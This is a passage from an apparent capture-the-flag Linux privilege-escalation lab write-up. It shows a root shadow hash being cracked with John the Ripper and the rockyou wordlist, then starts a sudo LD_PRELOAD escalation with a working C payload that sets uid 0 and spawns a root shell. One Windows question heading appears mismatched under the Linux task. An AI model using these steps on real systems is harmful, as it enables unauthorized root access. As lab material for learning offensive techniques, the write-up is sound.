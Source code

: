 Copied the root hash the write it in a file :

```console
echo "root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::" > hash.txt
```
{: .nolineno }

Finally, crack with John :

```console
root@ip-10-10-9-130:~/Desktop# john --wordlist=/usr/share/wordlists/rockyou.txt hash.Txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:00 DONE (2022-04-18 13:27) 1.408g/s 2163p/s 2163c/s 2163C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

No Answer.

## TASK 10 : Privilege Escalation - Sudo (LD_PRELOAD)
### What is the non-existent parent process for winlogon.exe? 
When LD_PRELOAD environment variable is set, we can abuse it :

```console
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
TCM@debian:~$ ls
myvpn.ovpn  shell.nse  tools
TCM@debian:~$ nano x.c
TCM@debian:~$ cat x.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```